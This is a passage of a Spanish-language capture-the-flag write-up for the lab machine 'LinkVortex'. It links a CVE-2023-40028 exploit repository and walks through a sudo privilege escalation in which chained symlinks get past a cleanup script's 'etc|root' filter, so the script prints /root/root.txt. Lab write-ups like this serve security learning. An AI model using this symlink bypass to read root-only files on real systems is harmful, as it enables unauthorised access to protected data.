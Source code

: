 ## Payload / CVE used
- 
-  https://github.com/0xyassine/CVE-2023-40028/tree/master

---

## Lateral Movement

### Local enumeration

# Sudo -l
```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png

```

Clean_symlink.sh:

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi

```


tras varios intentos consigo que me haga el cat al archivo 
```bash
bob@linkvortex:~$ nano /var/quarantined/g.png
bob@linkvortex:~$ sudo CHECK_CONTENT="true" /bin/bash /opt/ghost/clean_symlink.sh g.png 
bob@linkvortex:~$ ln -s hello.txt g.png
bob@linkvortex:~$ sudo CHECK_CONTENT="true" /bin/bash /opt/ghost/clean_symlink.sh g.png 
Link found [ g.png ] , moving it to quarantine
Content:
holaaaaa

```
El metodo es creando un archivo en /var/quarantined con el contenido que se quiera leer previo a crear el symlynk y si la variable $CHECK_CONTENT es true entonces hace un cat al  `QUAR_DIR/LINK_NAME`

entonces

creamos un symlink de /root/root.txt a un archivo en quarentined
```bash
ln -s /root/root.txt /var/quarentined/noleer.txt
```

Creamos un Symlink del noleer al directorio de usuario 
```bash
ln -s /var/quarentined/noleer.txt noleer.png
```

finalmente ejecutamos el script con sudo y marando $CHECK_CONTENT=true
```bash
bob@linkvortex:~$ sudo CHECK_CONTENT="true" /usr/bin/bash /opt/ghost/clean_symlink.sh noleer.png 
Link found [ noleer.png ] , moving it to quarantine
Content:
daa21fbc128199ee668e1b1bee29d6b9
```

### Atack vector

- 

---

